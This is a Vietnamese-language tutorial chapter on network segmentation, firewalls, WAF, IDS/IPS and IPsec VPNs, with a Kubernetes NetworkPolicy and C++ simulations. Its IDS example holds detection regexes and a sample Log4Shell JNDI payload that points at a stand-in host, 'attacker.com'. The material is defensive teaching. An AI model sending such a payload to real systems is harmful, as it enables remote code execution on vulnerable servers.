




# 9.1. Network Segmentation and Perimeter Defenses (Phân đoạn Mạng & Các Tuyến Phòng thủ Vành đai)

## Tổng quan về Network Perimeter & Segmentation
Trong kiến trúc an ninh mạng truyền thống, mô hình **"Lâu đài và Hào nước" (Castle-and-Moat)** giả định rằng mọi thứ bên ngoài Internet là nguy hiểm, trong khi mọi thiết bị bên trong mạng nội bộ (Internal Corporate Network / VPC) là hoàn toàn đáng tin cậy. Mô hình này đã sụp đổ hoàn toàn trước các kỹ thuật tấn công di chuyển ngang (Lateral Movement), Phishing và mã độc Ransomware.

Hạ tầng mạng hiện đại bắt buộc phải áp dụng **Phân đoạn Mạng (Network Segmentation & Isolation)** kết hợp với các rào chắn tường lửa đa tầng (**Stateless vs Stateful Firewalls**, **WAF**) và các hệ thống phát hiện/ngăn chặn xâm nhập (**IDS/IPS**, **IPsec VPN**). Mục tiêu là: Ngay cả khi một máy chủ Web công khai bị kẻ tấn công chiếm quyền, kẻ tấn công cũng bị "nhốt trong lồng" và không thể chạm tới cơ sở dữ liệu nội bộ.



---

## 2. Chi tiết từng Keyword (Under-the-Hood Deep Dive)

### 1. Network Segmentation, Network Isolation & Network Access Control

#### 1. Khái niệm bản chất (What & Why)
- **Network Segmentation (Phân đoạn Mạng)**: Kỹ thuật chia tách một mạng máy tính lớn thành nhiều phân đoạn mạng con (Subnets / VLANs) nhỏ hơn và độc lập về mặt logic. Lưu lượng giữa các phân đoạn mạng bị kiểm soát và lọc nghiêm ngặt bởi các thiết bị định tuyến (Routers) và tường lửa.
- **Network Isolation (Cô lập Mạng)**: Mức độ bảo vệ cao nhất của phân đoạn: Ngắt kết nối hoàn toàn về mặt vật lý hoặc logic giữa một phân vùng mạng nhạy cảm với phần còn lại của thế giới (Air-gapped Network / Isolated VPC).
  - *Ví dụ*: Đặt cụm Database máy chủ trong một Private Subnet không có Public IP và không có Default Gateway ra Internet.
- **Network Access Control (NAC - Kiểm soát Truy cập Mạng)**: Giải pháp an ninh (chuẩn IEEE 802.1X) kiểm tra danh tính và trạng thái tuân thủ bảo mật của thiết bị (đã cài antivirus chưa, hệ điều hành đã vá lỗi chưa) trước khi cho phép thiết bị đó kết nối vào mạng nội bộ.

#### 2. Cơ chế hoạt động sâu (Under the hood / Hardcore Internals)
- **VLANs (Virtual Local Area Networks - IEEE 802.1Q) ở Tầng Data Link (Layer 2)**:
  Trên các Switch mạng doanh nghiệp:
  - Khung Ethernet thông thường (Standard Ethernet Frame) được chèn thêm một trường **802.1Q Tag 4-byte** (chứa 12 bit `VLAN ID`, cho phép tạo tối đa 4096 mạng VLAN độc lập).
  - Hai máy tính cắm vào cùng một switch vật lý nhưng thuộc hai VLAN khác nhau (ví dụ: VLAN 10 - Web Servers và VLAN 20 - Database) **hoàn toàn không thể nhìn thấy nhau ở tầng Broadcast (ARP request không thể đi xuyên qua)**! Mọi giao tiếp bắt buộc phải được định tuyến qua Layer 3 Router/Firewall.
- **Micro-segmentation trong Cloud & Kubernetes (NetworkPolicy)**:
  Thay vì phân đoạn theo dải IP cứng nhắc, Micro-segmentation áp dụng tường lửa ảo trực tiếp trên từng Pod/Container thông qua Linux Kernel `iptables` / `nftables` hoặc eBPF (Cilium), kiểm soát lưu lượng đến cấp độ Service-to-Service theo nhãn (Labels).

#### 3. Sơ đồ minh họa (Mô hình Phân đoạn Mạng Ba Lớp Chuẩn Công Nghiệp)


#### 4. Code ví dụ thực chiến (YAML Kubernetes Strict NetworkPolicy for Micro-segmentation)
```yaml
# Cưỡng chế cô lập mạng tầng Pod bằng NetworkPolicy (eBPF / Iptables)
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: isolate-database-backend
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: postgres-database # Áp dụng chính sách cho Pod Database
  policyTypes:
  - Ingress # Kiểm soát chiều đi vào
  - Egress  # Kiểm soát chiều đi ra
  ingress:
  - from:
    - podSelector:
        matchLabels:
          app: payment-api # DUY NHẤT Pod mang nhãn payment-api mới được kết nối
    ports:
    - protocol: TCP
      port: 5432 # Chỉ mở đúng cổng PostgreSQL
  egress: [] # RỖNG: Cấm tuyệt đối Pod Database tự ý kết nối ra ngoài Internet (Chống Exfiltration)
```

#### 5. Ưu / Nhược điểm, Pitfalls & Anti-patterns
- **Pitfall**: Đặt máy chủ Database và máy chủ Web công khai chung một Subnet/VPC mà không có tường lửa ngăn cách. Khi Web Server bị chiếm quyền qua lỗi RCE, hacker sẽ quét mạng nội bộ và chiếm luôn Database trong 2 phút.
- **Anti-pattern**: Mở cổng cơ sở dữ liệu (5432, 3306) ra ngoài Public Internet và chỉ dựa vào "mật khẩu mạnh" để bảo vệ.

#### 6. Ứng dụng thực tế trong Backend / Systems
Kiến trúc tiêu chuẩn bắt buộc của các quy chuẩn bảo mật ngành thẻ thanh toán quốc tế **PCI-DSS (Requirement 1: Install and Maintain Network Security Controls)** và tiêu chuẩn thiết kế kiến trúc AWS Multi-AZ VPC.

---

### 2. Firewalls: Stateless vs Stateful & Web Application Firewalls (WAF)

#### 1. Khái niệm bản chất (What & Why)
- **Firewall (Tường lửa)**: Rào chắn an ninh mạng kiểm tra và lọc các gói tin mạng dựa trên một tập hợp các quy tắc (Rules) được xác định trước.
- **Stateless Firewall (Tường lửa Vô trạng thái / Network ACL)**:
  - Kiểm tra từng gói tin một cách **độc lập và riêng rẽ**, không lưu giữ ký ức về các gói tin trước đó.
  - Chỉ soi xét thông tin header tĩnh: `Source IP`, `Dest IP`, `Source Port`, `Dest Port`, `Protocol` (TCP/UDP).
  - *Hạn chế*: Phải mở quy tắc thủ công cho cả hai chiều (Inbound và Outbound, bao gồm cả dải Ephemeral Ports từ 1024 đến 65535 cho luồng dữ liệu phản hồi).
  - *Ưu điểm*: Tốc độ xử lý phần cứng cực nhanh (Sub-microsecond, xử lý wire-speed hàng trăm Gigabits/giây).
- **Stateful Firewall (Tường lửa Có trạng thái / Stateful Inspection)**:
  - Theo dõi và ghi nhớ trạng thái của toàn bộ phiên kết nối mạng thông qua **Bảng Theo dõi Kết nối (Connection Tracking Table - `conntrack` trong Linux Kernel)**.
  - Phân loại trạng thái gói tin: `NEW` (Khởi tạo kết nối mới qua SYN), `ESTABLISHED` (Kết nối đã bắt tay thành công), `RELATED` (Kết nối phụ trợ liên quan).
  - *Tính năng Vàng*: Tự động cho phép lưu lượng phản hồi (Response traffic) quay trở lại mà không cần mở cổng thủ công ở chiều ngược lại!
- **WAF (Web Application Firewall - Tường lửa Ứng dụng Web)**:
  - Hoạt động ở **Tầng 7 (Application Layer)** của mô hình OSI.
  - Không chỉ nhìn địa chỉ IP và Cổng như tường lửa mạng; WAF phân tích sâu vào nội dung của các giao thức ứng dụng: URL, HTTP Headers, Cookies, JSON/XML payload.
  - Nhận diện và ngăn chặn các cuộc tấn công cấp ứng dụng như SQL Injection, XSS, Path Traversal, và HTTP Smuggling.

#### 2. Cơ chế hoạt động sâu (Under the hood / Hardcore Internals)
- **Bên trong Bảng `conntrack` của Linux Kernel Netfilter**:
  Khi một gói tin TCP SYN đi vào card mạng (NIC):
  1. Module `nf_conntrack` trong nhân Linux tính toán một giá trị băm (Tuple Hash) gồm:
     `(Protocol, SrcIP, SrcPort, DstIP, DstPort)`.
  2. Tra cứu trong bảng băm `conntrack_hash`. Nếu không tìm thấy $\implies$ Trạng thái là `NEW`.
  3. Khi gói tin SYN-ACK phản hồi quay lại, Kernel nhận diện được Tuple nghịch đảo, cập nhật trạng thái kết nối thành `ESTABLISHED`.
  4. Mọi gói tin dữ liệu tiếp theo thuộc kết nối này chỉ cần đối chiếu nhanh với conntrack table trong RAM và được Kernel cho qua ngay lập tức mà không cần duyệt lại toàn bộ danh sách hàng ngàn quy tắc iptables phức tạp!

#### 3. Sơ đồ minh họa (So sánh Cơ chế Stateless ACL vs Stateful Conntrack)


#### 4. Code ví dụ thực chiến (C++ Linux Netfilter Conntrack State Inspection Simulation)
```cpp
#include <iostream>
#include <string>
#include <unordered_map>

enum class TcpConnectionState { NEW, ESTABLISHED, CLOSED };

struct ConnectionTuple {
    std::string srcIp;
    uint16_t srcPort;
    std::string dstIp;
    uint16_t dstPort;

    bool operator==(const ConnectionTuple& other) const {
        return srcIp == other.srcIp && srcPort == other.srcPort &&
               dstIp == other.dstIp && dstPort == other.dstPort;
    }
};

// Hash function cho ConnectionTuple
struct TupleHash {
    size_t operator()(const ConnectionTuple& t) const {
        return std::hash<std::string>()(t.srcIp) ^ (std::hash<uint16_t>()(t.srcPort) << 1);
    }
};

class StatefulFirewallEngine {
private:
    std::unordered_map<ConnectionTuple, TcpConnectionState, TupleHash> conntrackTable;

public:
    bool processPacket(const std::string& src, uint16_t sPort, const std::string& dst, uint16_t dPort, const std::string& tcpFlag) {
        ConnectionTuple forwardTuple{src, sPort, dst, dPort};
        ConnectionTuple reverseTuple{dst, dPort, src, sPort};

        // 1. Kiểm tra xem gói tin có thuộc kết nối đã thiết lập (ESTABLISHED) hay không
        if (conntrackTable.find(forwardTuple) != conntrackTable.end() ||
            conntrackTable.find(reverseTuple) != conntrackTable.end()) {
            std::cout << "[Stateful Pass] Packet recognized as ESTABLISHED connection: " << src << ":" << sPort << " -> " << dst << ":" << dPort << "\n";
            return true;
        }

        // 2. Nếu là gói tin mới (SYN) gửi tới cổng được phép (ví dụ: Port 443 HTTPS)
        if (tcpFlag == "SYN" && dPort == 443) {
            conntrackTable[forwardTuple] = TcpConnectionState::NEW;
            std::cout << "[Stateful NEW] Authorized new connection handshake initiated for port 443.\n";
            return true;
        }

        // Chặn tất cả các gói tin bất thường không có trạng thái
        std::cerr << "[Stateful DROP] Unauthorized or unsolicited packet dropped: " << src << ":" << sPort << "\n";
        return false;
    }
};

int main() {
    StatefulFirewallEngine fw;
    // Client khởi tạo kết nối hợp lệ tới Web Server
    fw.processPacket("1.2.3.4", 51234, "10.0.0.1", 443, "SYN");
    // Server phản hồi ngược lại (Tự động được cho qua nhờ Stateful inspection!)
    fw.processPacket("10.0.0.1", 443, "1.2.3.4", 51234, "SYN-ACK");
    // Kẻ tấn công cố tình bắn gói tin lạ vào cổng nội bộ
    fw.processPacket("9.9.9.9", 6666, "10.0.0.1", 22, "SYN");
    return 0;
}
```

#### 5. Ưu / Nhược điểm, Pitfalls & Anti-patterns
- **Pitfall**: Tấn công làm cạn kiệt bảng trạng thái (Conntrack Table Exhaustion DoS). Vì Stateful Firewall phải lưu mỗi kết nối vào RAM, một đợt tấn công SYN Flood lớn có thể làm đầy bảng `conntrack` (`nf_conntrack: table full, dropping packet`), khiến toàn bộ người dùng hợp pháp bị ngắt kết nối. (Khắc phục bằng **SYN Cookies** ở tầng nhân).
- **Anti-pattern**: Sử dụng WAF để thay thế hoàn toàn cho việc sửa lỗi mã nguồn (ví dụ: Thấy lỗi SQLi nhưng không sửa code mà chỉ bật rule WAF chặn). Kẻ tấn công sẽ luôn tìm ra các kỹ thuật WAF Evasion (Obfuscation, Unicode bypass) để xuyên thủng rào chắn.

#### 6. Ứng dụng thực tế trong Backend / Systems
AWS Security Groups (Stateful) vs AWS Network ACLs (Stateless); giải pháp Cloud WAF (Cloudflare WAF, AWS WAF, ModSecurity) bảo vệ các cổng API công cộng.

---

### 3. IDS, IPS & VPNs (IPsec)

#### 1. Khái niệm bản chất (What & Why)
- **IDS (Intrusion Detection System - Hệ thống Phát hiện Xâm nhập)**: Công cụ giám sát thụ động (Passive Monitoring). Nó sao chép (Mirror/SPAN port) lưu lượng mạng, phân tích tìm các dấu hiệu độc hại (Signatures) hoặc hành vi bất thường, và phát cảnh báo (Alert) cho đội an ninh (SOC) mà **không can thiệp làm gián đoạn luồng gói tin**.
- **IPS (Intrusion Prevention System - Hệ thống Ngăn chặn Xâm nhập)**: Thiết bị an ninh chủ động nằm trực tiếp trên đường truyền (In-line). Khi phát hiện gói tin độc hại (như khai thác lỗ hổng Log4j hoặc quét cổng Nmap), IPS **lập tức drop gói tin hoặc ngắt kết nối TCP ngay tại thời gian thực**.
- **VPN (Virtual Private Network - Mạng Riêng Ảo)**: Công nghệ tạo ra một đường hầm mã hóa an toàn (Encrypted Tunnel) xuyên qua một mạng công cộng không an toàn (Internet), cho phép máy khách từ xa truy cập vào mạng nội bộ như thể họ đang cắm dây mạng trực tiếp trong văn phòng.
- **IPsec (Internet Protocol Security)**: Bộ giao thức tiêu chuẩn mở hoạt động ở **Tầng Mạng (Layer 3 - Network Layer)** để bảo vệ toàn bộ giao tiếp IP. Gồm 2 giao thức cốt lõi:
  - **AH (Authentication Header)**: Bảo vệ tính toàn vẹn và xác thực nguồn gốc.
  - **ESP (Encapsulating Security Payload)**: Cung cấp cả tính bí mật (Mã hóa toàn bộ gói tin) và tính toàn vẹn.

#### 2. Cơ chế hoạt động sâu (Under the hood / Hardcore Internals)
- **Hai Chế độ Hoạt động của IPsec**:
  1. **Transport Mode (Chế độ Truyền tải)**:
     - Chỉ mã hóa phần Payload của gói tin IP; phần IP Header gốc vẫn được giữ nguyên. Thường dùng cho giao tiếp điểm-tới-điểm (Host-to-Host) giữa hai máy chủ cụ thể.
  2. **Tunnel Mode (Chế độ Đường hầm - Chuẩn VPN Site-to-Site)**:
     - **Mã hóa toàn bộ gói tin IP ban đầu** (bao gồm cả IP Header gốc chứa địa chỉ IP nội bộ của công ty).
     - Sau đó, bọc toàn bộ gói tin mã hóa này vào bên trong một **Gói tin IP mới hoàn toàn** (New IP Header) chứa địa chỉ Public IP của hai VPN Gateways. Router trên Internet chỉ nhìn thấy địa chỉ của 2 gateway, hoàn toàn không biết cấu trúc mạng nội bộ bên trong!

#### 3. Sơ đồ minh họa (Cấu trúc Đóng gói Dữ liệu của IPsec Tunnel Mode)


#### 4. Code ví dụ thực chiến (C++ Signature-based IDS Sniffer Rule Engine Pattern)
```cpp
#include <iostream>
#include <string>
#include <vector>
#include <regex>

struct SnortRule {
    std::string ruleId;
    std::string alertMessage;
    std::regex patternRegex;
};

class NetworkIntrusionDetector {
private:
    std::vector<SnortRule> activeRules;

public:
    void registerRule(const std::string& sid, const std::string& msg, const std::string& regexStr) {
        activeRules.push_back({sid, msg, std::regex(regexStr, std::regex::icase)});
    }

    // Phân tích nội dung gói tin mạng ở tầng L7
    void inspectPacketPayload(const std::string& packetPayload, const std::string& srcIp) {
        for (const auto& rule : activeRules) {
            if (std::regex_search(packetPayload, rule.patternRegex)) {
                std::cerr << "[IDS ALERT - " << rule.ruleId << "] " << rule.alertMessage 
                          << " from Source IP: " << srcIp << "\n";
                // Nếu là IPS (Prevention): Gọi hàm drop_packet() tại đây!
            }
        }
    }
};

int main() {
    NetworkIntrusionDetector ids;
    // Đăng ký signature nhận diện tấn công Log4Shell kinh điển
    ids.registerRule("SID-2021-44228", "Log4j JNDI RCE Exploit Pattern Detected", R"(\$\{jndi:(ldap|rmi|dns)://)");
    // Đăng ký signature nhận diện Path Traversal
    ids.registerRule("SID-2026-0001", "Directory Traversal Attack Attempt", R"(\.\./\.\./)");

    // Mô phỏng gói tin mạng đi qua card mạng
    std::string cleanPacket = "GET /index.html HTTP/1.1\r\nHost: example.com\r\n\r\n";
    std::string maliciousPacket = "GET /login HTTP/1.1\r\nUser-Agent: ${jndi:ldap://attacker.com/exploit}\r\n\r\n";

    std::cout << "Inspecting Clean Packet:\n";
    ids.inspectPacketPayload(cleanPacket, "1.1.1.1");

    std::cout << "Inspecting Malicious Packet:\n";
    ids.inspectPacketPayload(maliciousPacket, "9.9.9.9");
    return 0;
}
```

#### 5. Ưu / Nhược điểm, Pitfalls & Anti-patterns
- **Pitfall**: Đặt IPS ở chế độ Blocking mà không có giai đoạn kiểm thử độ tin cậy (Tuning phase). Các quy tắc nhận diện có tỷ lệ báo động giả (False Positive) cao sẽ tự động chặn đứng các giao dịch hợp pháp của khách hàng, gây ra sự cố gián đoạn kinh doanh nghiêm trọng.
- **Anti-pattern**: Sử dụng các giao thức VPN lỗi thời và kém an toàn như PPTP (Point-to-Point Tunneling Protocol) vốn có thể bị bẻ khóa mật khẩu trong vài phút bằng thám mã MS-CHAPv2.

#### 6. Ứng dụng thực tế trong Backend / Systems
Hệ thống **Suricata / Snort** tích hợp trong AWS Network Firewall; hạ tầng kết nối đám mây lai (Hybrid Cloud Site-to-Site VPN) giữa Datacenter on-premise của doanh nghiệp và Google Cloud Platform qua IPsec.
